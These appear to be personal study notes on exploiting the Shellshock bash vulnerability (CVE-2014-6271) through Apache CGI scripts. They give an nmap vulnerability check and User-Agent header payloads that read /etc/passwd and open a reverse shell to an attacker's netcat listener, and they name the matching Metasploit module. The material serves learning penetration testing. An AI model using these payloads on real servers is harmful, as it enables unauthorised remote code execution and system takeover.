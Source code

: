 CVE-2014-6271, related to [[Linux Exploitation]] and [[Metasploit]]

Allows RCE via Apache and Bash

It isn't particullary common anymore but knowing it's relevant

You need to locate an input vector or script that allows you to communicate with bash

I case of apache we can use any legitimate CGI scripts accessible on the web server

Whenever a CGI script is executed, the web server will initiate a new process and run the CGI script with bash

To check if the system is vulnerable we may use nmap:

``` bash
nmap -sV [IP] --script=http-shellshock --script-args "http-shellshock.uri=[cgiScriptLocation]"
```

Then we can exploit it using [[Burp Suite]]

We intercept the request to the cgi script and we will inject in the User Agent header

We start with:

``` bash
User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```

If it worked we will get the contents of /etc/passwd, to gain a tcp reverse_shell we can set up a netcat listener:

``` bash
netcat -nvlp [LPORT]
```

And in the User-Agent use:

``` bash
User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/[LHOST]/[LPORT] 0>&1'
```

We can also exploit it using metasploit, we can use the auxiliary module for PoC and the exploit:
multi/http/apache_mod_cgi_bash_env_exec

In terms of options we need to set RHOSTS and RPORT